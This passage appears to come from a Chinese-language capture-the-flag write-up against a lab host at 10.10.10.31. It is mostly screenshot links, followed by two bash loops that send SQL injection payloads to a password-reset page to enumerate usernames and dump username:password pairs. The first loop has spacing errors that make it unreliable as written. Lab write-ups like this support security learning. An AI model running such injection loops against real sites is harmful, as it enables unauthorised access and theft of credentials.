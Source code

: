 [![](assets/1703640271-e0929eefaa6a1e67fe6738801c8a57eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155430-004f9590-a3c4-1.png)

使用 limit 进行判断字段。

[![](assets/1703640271-74be0d7b74f143dad888c6cb3c8d6ed9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155436-03ba15e8-a3c4-1.png)

### 1.脚本测试

使用脚本枚举出了可用的用户名。

```bash
for i in{1..1000};do curl -s http://10.10.10.31/cmsdata/forgot.php --data-urlencode"email=a@b.c' or 1=1 limit ${i},1;-- -" | grep'<h2>' | awk'{print $5}' | grep-v"^with"||break;done
for i in $(seq 0 300); do
        payload="email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(__username_, ':', __password_, '@b.com') FROM supercms.operators LIMIT 1 OFFSET $i-- -"
        curl -s -d "$payload" http://10.10.10.31/cmsdata/forgot.php | grep -o '[^ ]*@b.com'
        done
```
